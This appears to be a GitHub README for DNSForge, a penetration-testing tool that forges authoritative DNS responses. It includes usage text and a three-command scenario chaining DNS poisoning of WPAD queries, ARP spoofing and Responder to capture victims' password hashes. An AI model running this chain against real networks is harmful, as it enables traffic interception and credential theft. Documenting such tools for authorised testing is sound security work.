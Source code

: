 # DNSForge
---
DNSForge is a network pentesting tool that aims to forge DNS responses as if they were originating from the authoritative nameserver. This tool is intended to be used alongside [Responder](https://github.com/lgandx/Responder) and [arpspoof](https://linux.die.net/man/8/arpspoof).

## Installation
---
The dependencies can be installed using [Poetry](https://python-poetry.org/)
```
poetry install
poetry shell
```

## Usage
---
```
usage: dnsforge.py [-h] --interface INTERFACE --dns-server DNS_SERVER --query-name QUERY_NAME --poison-ip POISON_IP

DNS Response Forger

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to sniff/poison on
  --dns-server DNS_SERVER, -d DNS_SERVER
                        IP address of Authoritative DNS Server
  --query-name QUERY_NAME, -qn QUERY_NAME
                        DNS Query Name to Poison
  --poison-ip POISON_IP, -p POISON_IP
                        IP address of to poison with
```

## Example
---
Sample scenario of poisoning DNS requests for WPAD issued by victim host:
1. Setup DNS Forge to poison incoming requests
```sudo python3 dnsforge.py -d <DNS Server> -i <Interface> -qn wpad -p <Poison IP>```
2. Once the signature for the authoritative nameserver is captured, spoof ARP requests
```sudo arpspoof -i <Interface> <DNS Server>```
3. Finally, run Responder to serve malicious WPAD file and capture hashes
```sudo responder -I <Interface> -wFP```
